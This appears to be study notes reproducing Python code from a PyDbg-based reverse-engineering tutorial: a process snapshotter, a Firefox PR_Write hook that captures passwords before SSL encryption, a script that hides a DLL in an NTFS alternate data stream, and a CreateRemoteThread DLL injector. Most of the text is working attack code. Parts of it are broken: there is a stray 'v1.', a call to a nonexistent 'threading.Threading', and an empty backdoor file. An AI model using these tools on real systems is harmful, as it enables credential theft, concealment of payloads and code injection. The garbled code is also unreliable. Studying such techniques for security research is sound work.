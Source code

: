 # obtaining process snapshot

v1. get an accurate picture of what the target process was up
to at a precise moment.
2. obtain all of the process's memory pages and their contents.
3. Before we can take the process snapshots, we have to suspend all threads
of execution so that they don’t change data or state while the snapshot is being
taken.


In PyDbg, `suspend_all_threads()`.


```python:n
from pydbg import *
from pydbg.defines import *
import threading
import time
import sys

class snapshotter(object):
    def __init__(self,exe_path):
        self.exe_path = exe_path
        self.pid = None
        self.dbg = None
        self.running = True

        # Start the debugger thread, and loop until it sets the PID of our target process
        pydbg_thread = threading.Thread(target=self.start_debugger)
        pydbg_thread.setDaemon(0)
        pydbg_thread.start()

        while self.pid == None:
            time.sleep(1)

        # we now have a PID and the target is running;
        # let's get a second thread running to do the snapshots
        monitor_thread = threading.Threading(target=self.monitor_debugger)
        monitor_thread.setDaemon(0)
        monitor_thread.start()

    def monitor_debugger(self):
        while self.running == True:
            input = raw_input("Enter: 'snap','restore' or 'quit'")
            input = input.lower().strip()

            if input == "quit":
                print "[*] Exiting the snapshotter."
                self.running = False
                self.dbg.terminate_process()
            elif input == "snap":
                print "[*] Suspending all threads."
                self.dbg.suspend_all_threads()

                print "[*] Obtaining snapshot."
                self.dbg.process_snapshot()

                print "[*] Resuming operation."
                self.dbg.resume_all_threads()

            elif input == "restore":
                print "[*] Suspending all threads."
                self.dbg.suspend_all_threads()
                print "[*] Restoring snapshot."
                self.dbg.process_restore()
                print "[*] Resuming operation."
                self.dbg.resume_all_threads()
    def start_debugger(self):
        self.dbg = pydbg()
        pid = self.dbg.load(self.exe_path)
        self.pid = self.dbg.pid
        self.dbg.run()

exe_path = "C:\\WINDOWS\\System32\\calc.exe"
snapshotter(exe_path)
    ```

# hook firefox

First let’s verify that we can actually see the data we are interested in. Open
the Firefox web browser, and navigate to one of my favorite sites, https://www
.openrce.org/. Once you have accepted the site’s SSL certificate and the page
has loaded, attach Immunity Debugger to the firefox.exe process and set a break-
point on nspr4.PR_Write. In the top-right corner of the OpenRCE website is a
login form; set a username to test and a password to test and click the
Login button. The breakpoint you set should be hit almost immediately;
keep pressing F9 and you’ll continually see the breakpoint being hit.
Eventually, you will see a string pointer on the stack that dereferences to
something like this:
[ESP + 8] => ASCII "username=test&password=test&remember_me=on"


firefox_hook.py
```python:n
from pydbg import *
from pydbg.defines import *

import utils
import sys

dbg = pydbg()
found_firefox = False

# let's set a global pattern that we can make the hook search for
pattern = "password"

# this is our entry hook callback function the argument we are interested in is args[1]
def ssl_sniff(dbg,args):
    # now we read out the memory pointed to by the second argument
    # it is stored as an ASCII string, so we'll loop on a read until we reach a NULL byte
    buffer = ""
    offset = 0
    while 1:
        byte = dbg.read_process_memory(args[1]+offset,1)
        if byte != "\x00":
            buffer += byte
            offset += 1
            continue
        else:
            break

    if pattern in buffer:
        print "Pre-Encrypted: %s" % buffer
    return DBG_CONTINUE

# Quick and dirty process enumeration to find firefox.exe
for (pid,name) in dbg.enumerate_processes():
    if name.lower() == "firefox.exe":
        found_firefox = True
        hooks = utils.hook_container()

        dbg.attach(pid)
        print "[*] Attaching to firefox.exe with PID: %d" % pid

        # Resolve the function address
        hook_address = dbg.func_resolve_debuggee("nspr4.dll","PR_Write")

        if hook_address:
            # Add the hook to the container. We aren't interested in using an exit callback, so we set it to None.
            hooks.add(dbg,hook_address,2,ssl_sniff,None)
            print "[*] nspr4.PR_Write hooked at: 0x%08x" % hook_address
            break
        else:
            print "[*] Error: Couldn't resolve hook address."
            sys.exit(-1)
if found_firefox:
    print "[*] Hooks set, continuing process."
    dbg.run()
else:
    print "[*] Error: Couldn't find the firefox.exe process."
    sys.exit(-1)
```


# file hider
file_hider.py
```python:n
import sys
# Reae in the DLL
fd = open(sys.argv[1], "rb")
dll_contents = fd.read()
fd.close()

print "[*] FileSize: %d" % len(dll_contents)

# Now write it out to the ADS
fd = open("%s:%s" % (sys.argv[2],sys.argv[1]), "wb")
fd.write(dll_contents)
fd.close()
```


backdoor.py
```python:n
# this library contains all the necessary defines for process creation

```

# dll injector
dll_injector.py

```python:n
import sys
from ctypes import *
PAGE_READWRITE = 0x04
PROCESS_ALL_ACCESS = (0x000F0000 | 0x00100000 | 0xFFF)
VIRTUAL_MEM = (0x1000 | 0x2000)

kernel32 = windll.kernel32
pid = sys.argv[1]
dll_path = sys.argv[2]
dll_len = len(dll_path)

# Get a handle to the process we are injecting into.
h_process = kernel32.OpenProcess(PROCESS_ALL_ACCESS,False,int(pid))

if not h_process:
    print "[*] Couldn't acquire a handle to PID: %s" % pid
    sys.exit(0)

# Allocate some space for the DLL path
arg_address = kernel32.VirtualAllocEx(h_process,0,dll_len,VIRTUAL_MEM,PAGE_READWRITE)

# Write the DLL path into the allocated space
written = c_int(0)
kernel32.WriteProcessMemory(h_process,arg_address,dll_path,dll_len,byref(written))

# We need to resolve the address for LoadLibraryA
h_kernel32 = kernel32.GetModuleHandleA("kernel32.dll")
h_loadlib = kernel32.GetProcAddress(h_kernel32,"LoadLibraryA")

# Now we try to create the remote thread, with the entry point set
# to LoadLibraryA and a Pointer to the DLL path as its single parameter
thread_id  = c_ulong(0)

if not kernel32.CreateRemoteThread(h_process,
                                None,
                                0,
                                h_loadlib,
                                arg_address,
                                0,
                                byref(thread_id)):
    print "[*] Failed to inject the DLL. Exiting."
    sys.exit(0)
print "[*] Remote thread with ID 0x%08x created." % thread_id.value

```
